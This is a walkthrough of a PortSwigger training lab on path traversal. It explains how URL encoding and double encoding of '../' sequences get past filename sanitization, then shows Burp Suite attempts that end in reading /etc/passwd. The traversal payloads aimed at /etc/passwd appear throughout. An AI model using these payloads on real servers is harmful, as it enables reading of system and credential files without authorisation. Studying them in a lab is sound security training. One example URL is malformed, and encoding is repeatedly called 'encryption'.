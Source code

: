 ## Welcome, my friend. Today we will start the [4. Path traversal lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode) in ```portswigger```

# Explain this Scenario:

### In some cases, such as when the path is used in a URL or in the filename parameter within a multipart/form-data request, servers may delete any cross-directory jump sequences before passing the input to the application. You can sometimes bypass this type of sanitization by using ```URL encoding``` or even ```double encoding``` of ```../``` symbols.


#### URL Encoding techniques

>URL Encoding

#### ```../``` becomes ```%2e%2e%2f```

### Double URL Encoding

#### ```../``` becomes ```%252e%252e%252f```

#### Non-standard encryptions

#### ```..%c0%af``` or ```..%ef%bc%8f``` may also work in some cases.

##### Use ```Burp Suite Pro``` to experiment with encryptions

#### For Burp Suite Professional users, Burp Intruder offers a preset list of payloads under the name Fuzzing - path traversal. This list contains some coded directory jump sequences you can try.


## Realistic scenario

#### Imagine that you are working on a web application that allows users to upload images. The application contains a mechanism to prevent ```../``` sequences. However, you can use encryption to bypass this mechanism:

##### If you send a request with the file parameter as follows

```
https://insecure-website.com/loadImage?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Or using double encryption:

```
https://insecure-website.com/loadImage?filename=%252e%252e%252f%252e%252e%252e%252e%252fetc%252fpasswd
````

### You can bypass input sanitization and access sensitive file.


-------------


# Let'a play this lab:

![image](https://github.com/user-attachments/assets/43278817-16b1-4476-bc9e-574f4c91b789)

#### First, we navigate inside the browser and search for all the existing parameters that we can benefit from, such as:

### We use the ```burp suite``` tool to help us intercept the request and modify it.

![image](https://github.com/user-attachments/assets/dfb70f41-f08c-4f5b-8c42-6f1ec2eecc00)


### Well, we have found ```filename``` parameter that may be affected by a vulnerability


##### The value of filename is ```49.jpg``` we will instead to ```../../../etc/passwd``` or ```/etc/passwd```


![image](https://github.com/user-attachments/assets/32ef3d0c-b625-417f-a906-579a1af668dd)

#### ok, No such file.

![image](https://github.com/user-attachments/assets/b72a69f2-98ea-487b-84a9-979deb542ace)


#### Also, No such file.

#### Let's try this:

```
....//....//....//etc/passwd
```

![image](https://github.com/user-attachments/assets/5c7b0fa2-fd00-4fbc-b491-2d78c73ae6bc)

#### Hmmm,Also no such file.

### Ok Let's try encoding this url in ```burp```. 

### ```../../../``` becomes ```%2e%2e%2f%2e%2e%2f%2e%2e%2f```

##### Let's try this:

```
%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
```

![image](https://github.com/user-attachments/assets/87223bd2-0eaa-4306-9f4a-f89f9cb19284)


### Ummm, Let's try with ```Double URL Encoding```.

### ```%2e%2e%2f%2e%2e%2f%2e%2e%2f``` becomes ```%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66```

![image](https://github.com/user-attachments/assets/07f18814-4054-455e-9612-7aa299f282e9)

##### Let's try this:

```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
```

![image](https://github.com/user-attachments/assets/963d6ffe-7c04-4ac1-910f-8987b8c737f5)

### Great, we were able to access that sensitive file

![image](https://github.com/user-attachments/assets/2758238e-5ad5-4fd3-99cd-17b6fe1a65b0)

## Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/2c4923a2-ba08-43d5-801c-8c08e461709f" >
</p>







































































